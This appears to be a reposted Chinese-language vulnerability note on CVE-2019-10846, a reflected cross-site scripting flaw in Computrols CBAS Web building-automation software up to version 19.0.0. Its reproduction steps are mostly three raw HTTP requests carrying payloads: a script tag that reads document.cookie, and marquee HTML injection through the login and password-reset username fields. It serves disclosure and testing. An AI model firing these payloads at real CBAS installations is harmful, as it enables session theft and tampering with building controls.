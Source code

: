 # （CVE-2019-10846）Computrols CBAS Web反射型xss

> 原文：[https://www.zhihuifly.com/t/topic/2851](https://www.zhihuifly.com/t/topic/2851)

# （CVE-2019-10846）Computrols CBAS Web反射型xss

## 一、漏洞简介

Computrols CBAS Web是美国Computrols公司的一套楼宇自动化系统

## 二、漏洞影响

Computrols CBAS Web<=19.0.0

## 三、复现过程

### 1、

```
POST /cbas/index.php?m=auth&a=verifyid HTTP/1.1 `username="><script>confirm(document.cookie)</script>&submit_button=Send+Me+a+New+Password+Via+Email` 
```

### 2、

```
POST /cbas/index.php?m=auth&a=login HTTP/1.1 `username="><marquee>htmlinjection</marquee>&password=&challenge=60753c1b5e449de80e21472b5911594d&response=e16371917371b8b70529737813840c62` 
```

### 3、

```
GET /cbas/index.php?m=auth&a=login&username="><marquee>my milkshake brings all the boys to the yard.</marquee>&password=damn_right HTTP/1.1 
```